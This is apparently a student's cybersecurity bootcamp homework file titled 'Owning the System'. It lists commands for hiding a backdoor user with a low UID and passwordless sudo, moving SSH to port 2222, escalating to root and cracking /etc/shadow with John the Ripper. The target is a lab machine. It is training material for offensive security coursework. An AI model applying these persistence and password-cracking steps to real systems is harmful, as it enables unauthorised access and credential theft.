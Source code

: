 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd --no-create-home
2. Give your secret user a password: 
    - sysd
    - very easy to remember...
3. Give your secret user a system UID < 1000:
    - usermod -u 47 sysd
4. Give your secret user the same GID:
   - groupmod -g 47 sysd
5. Give your secret user full `sudo` access without the need for a password:
   - 
   
        -visudo    
        -Add at the bottom:
        -sysd all=(all) NOPASSWD:ALL
![Edit_Sudoers_Step1_Q5](/HW-6/Image/Edit_Sudoers_Step1_Q5.png)


6. Test that `sudo` access works without your password:


![Sudo-L_Step1_Q6](/HW-6/Image/Sudo-L_Step1_Q6.png)

        sudo cat /etc/shadow
        sudo visudo
        None of them required a password.

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    AddressFamily any
    ListenAddress 0.0.0.0
    ListenAddress ::
    ```
![SSHD_CONFIG_Step2_Q1.png](/HW-6/Image/SSHD_CONFIG_Step2_Q1.png)


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - service sshd restart

2. Exit the `root` account:
    - exit multple times until you're back at sysadmin.

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    
        john /etc/shadow

![John_The_Ripper_Step4_Q1.png](/HW-6/Image/John_The_Ripper_Step4_Q2.png)
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

